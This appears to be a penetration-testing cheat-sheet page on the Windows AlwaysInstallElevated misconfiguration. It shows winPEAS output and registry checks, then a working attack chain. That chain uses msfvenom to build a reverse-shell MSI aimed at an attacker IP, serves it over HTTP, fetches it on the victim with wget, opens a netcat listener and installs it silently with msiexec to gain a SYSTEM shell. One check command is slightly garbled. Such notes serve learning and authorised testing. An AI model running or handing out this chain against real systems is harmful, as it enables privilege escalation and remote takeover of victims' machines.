 # AlwaysInstallElevated

winpeas outputs :

```
[+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                             
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

### Check

```powershell
# Check if these registry values are set to "1".

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installerpowe
```

**These registry keys tell windows that a user of any privilege can install .msi files are NT AUTHORITY\SYSTEM. So all you need to do is create a malicious .msi file, and run it.**

```bash
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=$attacker_ip LPORT=443 -f msi -o rev.msi
python -m SimpleHTTPServer 80

# on the windows victim
powershell wget http://$attacker_ip/rev.msi

# on attacker
nc -lvnp 443

# on victim
msiexec /quiet /qn /i rev.msi
```
